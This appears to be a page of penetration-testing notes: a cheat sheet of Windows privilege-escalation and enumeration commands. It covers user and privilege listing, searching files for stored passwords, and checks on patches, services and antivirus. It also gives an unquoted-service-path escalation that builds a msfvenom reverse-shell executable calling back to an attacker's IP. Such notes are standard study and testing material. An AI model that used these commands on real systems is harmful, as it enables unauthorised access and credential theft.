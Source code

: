 - User

  Current user’s privileges: `whoami /priv`

  List users: `net users`

  List details of a user: `net user username` (e.g. `net user Administrator`)

  Other users logged in simultaneously: `qwinsta` (or `query session`)

  User groups defined on the system: `net localgroup`

  List members of a specific group: `net localgroup groupname` (e.g. `net localgroup Administrators`)

- System

  `systeminfo | findstr /B /C:"OS Name" /C:"OS Version"`

  `hostname`

- Files

  `findstr /si password *.txt` (`.xml`, `.ini`, `.config`, `.xls` are also good choice)

  Directory: `dir /b /s "directoryname"`

  File: `where /r . *.pdf`

- Patch: `wmic qfe get Caption,Description,HotFixID,InstalledOn`

- Network: `netstat -ano`

- Scheduled tasks: `schtasks /query /fo LIST /v`

- Driver: `driverquery`

- Antivirus

  - Windows defender: `sc query windefend`
  - Antivirus software: `sc queryex type=service`

- Software Versions

  `wmic product get name,version,vendor`

  `wmic service list brief | findstr "Running"`

  `wmic service get name,displayname,pathname,startmode`

  `sc qc <service>`

- Unquoted Service Path

  `sc qc unquotedsvc`

  Check file permission: `.\accesschk64.exe /accepteula -uwdq "C:\Program Files\"`

  Then, `msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<port> -f exe > executable_name.exe`

  After that, `sc start unquotedsvc`

### RDP
